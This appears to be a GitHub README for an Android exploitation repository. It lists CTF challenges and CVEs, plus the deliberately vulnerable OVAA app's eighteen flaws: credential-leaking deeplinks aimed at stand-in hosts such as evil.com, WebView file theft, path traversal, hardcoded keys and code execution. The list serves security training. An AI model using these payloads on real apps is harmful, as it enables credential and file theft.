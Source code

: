 # androidpwn
# EvilParcel漏洞
Android Pwn De1taCTF BroadcastTest<br>

# CVE-2020-8913

# CVE-2017-13288

# CVE-2017-13315

# OVAA Proof Of Concept
https://github.com/oversecured/ovaa<br>
The detailed POC codes <br>

# List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on our blog.

1.Installation of an arbitrary login_url via deeplink oversecured://ovaa/login?url=http://evil.com/. Leads to the user's user name and password being leaked when they log in.<br>
2.Obtaining access to arbitrary content providers (not exported, but with the attribute android:grantUriPermissions="true") via deeplink oversecured://ovaa/grant_uri_permissions. The attacker's app needs to process oversecured.ovaa.action.GRANT_PERMISSIONS and pass intent to setResult(code, intent) with flags such as Intent.FLAG_GRANT_READ_URI_PERMISSION and the URI of the content provider.<br>
3.Vulnerable host validation when processing deeplink oversecured://ovaa/webview?url=....<br>
4.Opening arbitrary URLs via deeplink oversecured://ovaa/webview?url=http://evilexample.com. An attacker can use the vulnerable WebView setting WebSettings.setAllowFileAccessFromFileURLs(true) in the WebViewActivity.java file to steal arbitrary files by sending them XHR requests and obtaining their content.<br>
5.Access to arbitrary activities and acquiring access to arbitrary content providers in LoginActivity by supplying an arbitrary Intent object to redirect_intent.<br>
6.Theft of arbitrary files in MainActivity by intercepting an activity launch from Intent.ACTION_PICK and passing the URI to any file as data.<br>
7.Insecure broadcast to MainActivity containing credentials. The attacker can register a broadcast receiver with action oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA and obtain the user's data.<br>
8.Insecure activity launch in MainActivity with action oversecured.ovaa.action.WEBVIEW, containing the user's encrypted data in the query parameter token.
9.Deletion of arbitrary files via the insecure DeleteFilesSerializable deserialization object.<br>
10.Memory corruption via the MemoryCorruptionParcelable object.<br>
11.Memory corruption via the MemoryCorruptionSerializable object.<br>
12.Obtaining read/write access to arbitrary files in TheftOverwriteProvider via path-traversal in the value uri.getLastPathSegment().<br>
13.Obtaining access to app logs via InsecureLoggerService. Leak of credentials in LoginActivity Log.d("ovaa", "Processing " + loginData).<br>
14.Use of the hardcoded AES key in WeakCrypto.<br>
15.Arbitrary Code Execution in OversecuredApplication by launching code from third-party apps with no security checks.<br>
16.Use of very wide file sharing declaration for oversecured.ovaa.fileprovider content provider in root entry.<br>
17.Hardcoded credentials to a dev environment endpoint in strings.xml in test_url entry.<br>
18.Arbitrary code execution via a DEX library located in a world-readable/writable directory.<br>
